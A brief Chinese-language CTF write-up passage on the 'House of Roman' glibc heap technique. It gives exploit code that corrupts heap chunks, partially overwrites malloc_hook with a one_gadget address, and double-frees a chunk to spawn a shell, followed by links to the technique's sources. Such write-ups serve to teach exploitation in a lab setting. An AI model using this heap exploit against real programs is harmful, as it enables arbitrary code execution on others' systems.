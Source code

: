  

```
create(0xc8,1)
create(0xc8,1)
create(0x18,2)
create(0xc8,3)
create(0xc8,4)
free(1)
po = "B"*8
po += "\x00\x1b"
edit(1,po)
create(0xc8,1)
info("unsorted bin 使得 malloc_hook 有 libc 的地址")
```

利用 修改 `malloc_hook` 的低三个字节 ，使得 `malloc_hook` 为 `one_gadget` 的地址

 

```
over = "R"*0x13   # padding for malloc_hook
over += "\xa4\xd2\xaf"
edit(0,over)

info("malloc_hook to one_gadget")
```

然后 `free`  两次同一个  `chunk`  ，触发  `malloc_printerr`  ， `getshell`

 

```
free(18)
free(18)
```



## link

https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc

https://github.com/romanking98/House-Of-Roman

https://xz.aliyun.com/t/2316
